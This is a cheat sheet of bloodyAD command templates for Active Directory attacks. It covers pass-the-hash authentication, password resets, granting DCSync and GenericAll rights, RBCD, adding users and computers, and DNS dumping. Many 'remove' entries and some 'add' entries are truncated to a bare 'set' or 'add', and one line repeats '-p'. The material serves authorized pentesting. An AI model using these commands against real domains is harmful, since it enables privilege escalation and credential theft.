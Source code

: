 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## auth (cred)
```bash
-u <user> -p <password>
```

## auth (pth)
```bash
-u <user> -p :<nt_hash>
```

## auth (ptt)
```bash
-k
```

## auth (cert)
```bash
-c <key_path>:<pem_path>
```

## cross-domain actions
```bash
bloodyad --host <target_dc_ip> -d <domain_fqdn> -u <user> -p  -p :<nt_hash>
```

## set - reset password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set cross-domain - reset user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <target_dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Zaebuj12345+->' 
```

## set - add/replace/delete target attribute  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set object <target_dn> <attribute> -v <value>
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```



## add - add computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add computer  <computer_name|jubeaz> <computer_password|Zaebuj12345+->
```
## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
sAMAccountName, DN, GUID or SID of the trustee
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  dcsync <trustee>
```
## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add dnsRecord   
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add genericAll <target> <trustee>
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  groupMember <group_sam> <target_sam>
```
## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  rbcd <target>  <source>
```
## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> add user <sAMAccountName|jubeaz> <password|Zaebuj12345+-> 
```

## get - list children of an object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - DNS dump records (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get dnsDump --zone <domain_fqdn>  
```
## get - membership (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get membership <target_sAMAccountName>
```
## get - object with dacl (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get object --resolve-sd <target_sAMAccountName>
```
## get - search (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get search --filter '<ldap_filter|(objectClass=*)>' --attr <comma_sep_attr_list|'*'> --resolve-sd  <search_base|DC=domain,DC=tld>
```
## get - writable (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> get writable
```

## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain_fqdn> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

